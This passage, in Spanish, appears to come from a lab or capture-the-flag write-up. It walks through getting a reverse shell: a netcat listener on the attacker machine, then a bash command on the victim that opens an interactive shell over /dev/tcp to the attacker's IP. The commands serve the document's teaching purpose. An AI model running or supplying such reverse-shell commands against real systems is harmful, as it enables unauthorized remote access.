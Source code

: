 En nuestra máquina atacante escuchamos por el puerto 1234:
```bash
nc -lvnp 1234
```
![nc](img/nc.png)

En nuestra máquina víctima:

```bash
shell
script /dev/null -c bash
bash -i >& /dev/tcp/10.0.2.15/1234 0>&1
```

Este ultimo comando se puede generar en https://www.revshells.com/

![revshells](img/revshells.png)  
![shell](img/shell.png)  
![script_bash](img/script_bash.png)  
![reverse_shell](img/reverse_shell.png)  
